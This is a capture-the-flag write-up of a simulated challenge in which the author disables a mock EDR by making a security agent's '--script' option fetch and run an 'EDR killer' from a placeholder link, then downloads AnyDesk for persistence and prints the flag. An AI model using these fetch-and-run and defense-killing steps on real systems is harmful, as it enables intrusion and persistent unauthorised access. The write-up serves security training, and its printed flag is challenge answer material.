







# O7: Bypass the EDR

## Problem Description
You cashed in your creds and now have initial access to a host in The Lucky Lion's internal network - one step closer to payday!! You better make sure you've got more than one way into this environment in case someone kicks you out - perhaps it would be prudent to download and install some remote management software for future use.

That might be easier said than done, though... you expect The Lucky Lion's security tools might give you trouble. Fortunately, another member of The Mound has written an EDR killer ("f4c3st4b") specific to the EDR you identified earlier. The only issue might be getting it on the host.

## Objectives
- Download AnyDesk on the victim machine

Required tools:
- Web Shell: `https://target-httpd.chals.io/shell/edr.html`
- AnyDesk SIMULATED LINK: `https://anydesk.com.example/downloads/anydesk.bin`
- "f4c3st4b" EDR Killer SIMULATED LINK: `https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab`

**Note: The simulated links are not real and do not go anywhere.

## Approach and Solution
Whoo, what a doozy. I struggled a lot with this one, in large because all of the bash commands I was used to using just didn't exist or didn't work the way I expected them to. In this one case, my own competence was my biggest enemy.

First, let's talk about the web shell. It is completely simulated in the browser via JavaScript, which is how this CTF was able to handle hundreds of participants all mucking about on this one problem at the same time. Second, it is *extremely* bare bones. Pro tip: in a new Unix-based environment, always run the help command on everything. *EVERYTHING*. Running a quick `help` command in the shell gives us this:

Yes, that is every single command we have access to in this shell. All of them. Yep.

To me, what stands out the most immediately is that there are no options for file creation. We have a `mkdir` command, but no `touch` command or anything similar. Running `cat > example.txt` and `echo "sample text" > example.txt` also proved fruitless.

So, with no file creation, we must turn to the system for other answers. We explore the shell, and come up with several interesting things:
- narsh, located in `/bin`. This is us, the shell that we are in.
- cguard, located in `/usr/bin`
- cguardd (yes there are two), located in `/usr/bin`
- cguard.sentinel, located in `/var/lib`

Running `--help` on each of these turns up one interesting thing for cguard:

cguard can be run as a command! More importantly, there is a `--script` option, which can download and run scripts.

Thus, we download facestab with this command:

`cguard --script https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab`

...which then downloads the `facestab` file into the `/tmp` directory.

If we `cd` into `tmp` and run `./facestab -h`, we get this:

So we now know that the usage of `facestab` relies on PIDs. Recall from the earlier `help` command that we do have access to a `ps` command! Running `ps --help` shows that there is a `-A` option, which we will attach to the ps command. Running `ps -A` gives us this:

From prior knowledge, we know narsh is us (this shell). So that's not the PID we are looking for. Therefore we must be trying to kill PID 10.

But if we go into `/tmp` and run `./facestab -p 10`, we get an `invalid permissions` error. Our permissions aren't high enough!

This is where I got stuck the longest. Here's a short list of things I tried that didn't work:
1) tried to `chmod` literally anything. insufficient permissions.
2) tried to force `cat` to create a file.
3) tried to force `echo` to create a file.
4) tried to write my own script outside of the environment and download that with curl. (curl is completely blocked until we kill the EDR)
5) tried to download and run that script with cguard. (got a "try again" error)
6) tried to make a directory with 777 permissions and create files (didn't work because there is NO FILE CREATION)

...and so on, and so forth.

> A quick note of mild hilarity: I was working on this CTF while I was at Lollapalooza (yes the Chicago music festival). I had gotten to this point Thursday night, and then on Friday, at the festival, I got super bored (due to my friends wanting to wait nearly the entire day for a kpop group and me being unwilling to ditch them). So in lieu of having anything to do for like seven hours straight...I read the inspect page source code for this challenge. Like all of it. And that kind of ended up giving me the answer. So...I guess thank you, insane kpop fans, for inadvertently helping me finish this CTF?

From reading the source code (I will never forget the feeling of trying to do that on my literal phone), I discovered that the key point I was missing was hidden in the wording for `cguard` all along: it will download AND RUN scripts. So all I needed to do was redownload the script and attach the PID argument at the end. I hard refreshed the page to give me a clean environment, and then ran this:

`cguard --script https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab -p 10`

and that returns `successfully killed 10`. And when we check, `cguard.sentinel` is gone! We have successfully killed the EDR.

From here, all we have to do is download Anydesk into the environment. There's only one catch: we need to do it in a directory where we have full read/write/execute permissions. Luckily, using `ls -l`, we see that we have `tmp` has 777 permissions.

So all we do is `cd` into `/tmp` one more time, and run curl:

`curl https://anydesk.com.example/downloads/anydesk.bin`

Once this is downloaded, we get the flag.

`wicys2024{anydeskanytime}`